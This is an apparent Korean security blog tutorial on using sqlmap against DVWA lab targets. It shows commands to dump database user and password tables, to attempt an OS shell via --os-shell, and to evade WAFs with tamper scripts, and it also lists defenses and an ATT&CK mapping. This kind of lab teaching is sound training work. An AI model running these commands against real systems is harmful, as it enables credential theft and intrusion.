

## 1. 개요

**Sqlmap**은 SQL Injection 취약점을 자동으로 탐지하고 익스플로잇(Exploit)까지 수행해 주는 가장 강력한 오픈소스 도구이다.
복잡한 Blind SQL Injection 공격을 수동으로 수행하려면 많은 시간이 걸리지만, Sqlmap을 사용하면 단 몇 분 만에 데이터베이스 전체를 덤프(Dump)하거나 심지어 서버의 운영체제 쉘(OS Shell)까지 획득할 수 있다.
본 글에서는 Sqlmap의 핵심 옵션을 익히고, 실제 취약한 웹 사이트에서 데이터베이스 정보를 탈취하고 시스템 장악을 시도하는 과정을 다룬다.

---

## 2. 공격 워크플로우



---

## 3. 실습 환경

### DVWA (Docker)
```bash
docker run -d -p 80:80 vulnerables/web-dvwa
# Security Level: Low로 설정 후 SQL Injection 메뉴 실습
```

### SQLi-labs
```bash
docker run -d -p 80:80 acgpiano/sqli-labs
# 65개 이상의 SQLi 시나리오 제공
```

---

## 4. 스캔 옵션

Sqlmap은 매우 많은 기능을 제공하지만, 핵심적인 옵션은 다음과 같다.

#### 기본 구문
`-u` 옵션으로 취약점을 점검할 URL을 지정한다. (파라미터 포함 필수)
```bash
sqlmap -u "http://[Target IP]/vulnerabilities/sqli/?id=1&Submit=Submit#"
```

#### 주요 옵션
*   **--cookie="[COOKIE]"**: 로그인 인증이 필요한 페이지를 점검할 때 사용한다. 브라우저 개발자 도구 등에서 세션 쿠키를 복사하여 입력한다.
*   **--dbs**: 접근 가능한 모든 데이터베이스 목록을 출력한다.
*   **-D [DB] --tables**: 특정 데이터베이스에 포함된 테이블 목록을 출력한다.
*   **-T [Table] --columns**: 특정 테이블의 컬럼 정보를 출력한다.
*   **-C [Col] --dump**: 특정 컬럼의 데이터를 모두 추출(Dump)한다.
*   **--batch**: 스캔 과정의 모든 질문에 기본값(Yes)으로 자동 응답하여 비대화형으로 실행한다.

---

## 5. 공격 실습: 데이터 탈취

Target 서버(`192.9.200.11`)의 DVWA SQL Injection 페이지를 대상으로 데이터베이스 정보를 단계적으로 탈취한다.

#### 1단계: 데이터베이스 목록 확인
```bash
sqlmap -u "http://192.9.200.11/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=..." --dbs
```


#### 2단계: `users` 테이블 데이터 덤프
확인된 `dvwa` 데이터베이스 내 `users` 테이블의 `user`, `password` 컬럼 데이터를 모두 가져온다.

```bash
sqlmap -u "..." --cookie="..." -D dvwa -T users -C user,password --dump
```


---

## 6. 공격 실습: OS Shell

`--os-shell` 옵션은 SQL Injection을 통해 웹 서버에 웹쉘(Stager)을 업로드하고, 이를 통해 운영체제 쉘을 획득하는 강력한 기능이다.

#### 실행 명령어
```bash
sqlmap -u "http://192.9.200.11/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="..." --os-shell
```

#### 실행 결과 및 분석
실습 결과 `os-shell` 획득에 실패했다. 로그 분석을 통해 확인된 실패 원인은 다음과 같다.


`[WARNING] it looks like the file has not been written`

이는 최신 리눅스 서버 환경의 **Defense in Depth (심층 방어)** 전략이 효과적으로 작동했기 때문이다.

1.  **파일 시스템 권한**: 웹 서버의 Document Root인 `/var/www/html`에 대해 데이터베이스 사용자(`mysql`)가 쓰기 권한을 가지고 있지 않다.
2.  **AppArmor/SELinux**: 프로세스가 허용된 경로 외에는 파일에 접근하거나 생성하지 못하도록 강제 접근 제어가 적용되어 있다.
3.  **secure_file_priv**: MySQL 설정에서 파일 입출력(`INTO OUTFILE` 등)을 특정 디렉터리로 제한하거나 차단하고 있다.

결론적으로, 최신 환경에서는 SQL Injection 취약점이 존재하더라도 OS Shell 획득까지 이어지기는 쉽지 않으며, 이러한 다층 보안 설정이 중요하다는 것을 확인할 수 있다.

---

## 7. WAF 우회

실제 환경에서는 WAF(Web Application Firewall)가 Sqlmap의 페이로드를 차단하는 경우가 많다. 다양한 옵션을 활용해 탐지를 우회한다.

### Tamper Scripts (페이로드 변조)
`--tamper` 옵션으로 SQL 페이로드를 인코딩하거나 변형하여 WAF 시그니처를 우회한다.
```bash
# 공백을 주석으로 대체, 대소문자 랜덤화
sqlmap -u "http://target.com/?id=1" --tamper=space2comment,randomcase

# 여러 tamper 스크립트 조합
sqlmap -u "..." --tamper=between,charencode,equaltolike
```

### 주요 Tamper Scripts
| 스크립트 | 설명 |
|----------|------|
| `space2comment` | 공백을 `/**/`로 대체 |
| `charencode` | 페이로드를 URL 인코딩 |
| `randomcase` | SELECT → SeLeCt 등 대소문자 랜덤화 |
| `between` | `>` 연산자를 `BETWEEN` 문으로 변경 |

### Level & Risk (탐지 강도)
기본 스캔으로 찾지 못한 취약점을 더 깊게 탐색한다.
*   **--level (1-5)**: 테스트할 파라미터 범위 확대 (Cookie, User-Agent 등)
*   **--risk (1-3)**: 위험한 페이로드 사용 여부 (UPDATE, DELETE 등)

```bash
# 최대 수준 스캔 (시간 오래 걸림)
sqlmap -u "..." --level=5 --risk=3
```

### 2nd-Order SQL Injection
입력값이 즉시 실행되지 않고 **저장 후 나중에 실행**되는 취약점을 탐지한다.
```bash
# 결과가 표시되는 별도 페이지 URL 지정
sqlmap -u "http://target.com/register" --second-url="http://target.com/profile"
```

---

## 8. 방어 대책

### 탐지 방법
*   **WAF 시그니처**: `UNION SELECT`, `' OR 1=1` 등 SQLi 패턴 탐지
*   **DB 쿼리 로그**: 비정상적인 쿼리 실행 모니터링
*   **에러 메시지 분석**: SQL 에러가 클라이언트에 노출되는지 확인

### 방어 방법
*   **Prepared Statement**: 파라미터화된 쿼리 사용 (가장 효과적)
    ```python
    cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))
    ```
*   **ORM 사용**: SQLAlchemy, Hibernate 등
*   **입력 값 검증**: 화이트리스트 기반 필터링
*   **최소 권한**: DB 계정에 필요한 권한만 부여
*   **WAF 적용**: ModSecurity, AWS WAF

---

## MITRE ATT&CK 매핑

| Sqlmap 기능 | ATT&CK 기법 | ID | 단계 |
|-------------|------------|-----|------|
| SQLi 탐지/익스플로잇 | Exploit Public-Facing Application | T1190 | Initial Access |
| `--dbs`, `--dump` | Data from Information Repositories | T1213 | Collection |
| `--os-shell` | Command and Scripting Interpreter | T1059 | Execution |
| `--file-read` | Data from Local System | T1005 | Collection |
| `--file-write` | Ingress Tool Transfer | T1105 | Command and Control |

---

## OWASP Top 10 매핑

| 관련 항목 | 설명 |
|----------|------|
| **A05: Injection** | SQL Injection은 대표적인 인젝션 공격 |
| **A01: Broken Access Control** | SQLi를 통한 인증 우회 및 권한 상승 |

<hr class="short-rule">